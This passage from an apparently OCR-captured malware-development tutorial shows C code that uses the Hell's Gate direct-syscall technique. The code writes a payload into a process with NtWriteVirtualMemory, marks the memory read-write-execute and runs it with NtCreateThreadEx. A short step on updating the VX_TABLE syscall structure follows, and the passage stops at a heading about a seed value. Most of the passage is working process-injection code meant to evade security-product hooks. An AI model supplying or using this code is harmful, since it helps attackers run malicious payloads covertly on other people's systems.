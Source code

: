 ```
	getchar();

//--------------------------------------------------------------------------

	// Writing the payload
	printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
	HellsGate(pVxTable->NtWriteVirtualMemory.wSystemCall);
	if ((STATUS = HellDescent(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
		printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
		return FALSE;
	}
	printf("[+] DONE \n");

//--------------------------------------------------------------------------

	// Changing the memory's permissions to RWX
	HellsGate(pVxTable->NtProtectVirtualMemory.wSystemCall);
	if ((STATUS = HellDescent(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
		printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

//--------------------------------------------------------------------------
	// Executing the payload via thread
	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
	HellsGate(pVxTable->NtCreateThreadEx.wSystemCall);
	if ((STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));


	return TRUE;
}

```
### **Updating The VX\_TABLE Structure**

Next, the [VX\_TABLE](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L14) structure must be updated with the names of the syscalls that are used in this module, as shown below.


```
typedef struct _VX_TABLE {
	VX_TABLE_ENTRY NtAllocateVirtualMemory;
	VX_TABLE_ENTRY NtWriteVirtualMemory;
	VX_TABLE_ENTRY NtProtectVirtualMemory;
	VX_TABLE_ENTRY NtCreateThreadEx;
} VX_TABLE, * PVX_TABLE;

```
### **Updating Seed Value**
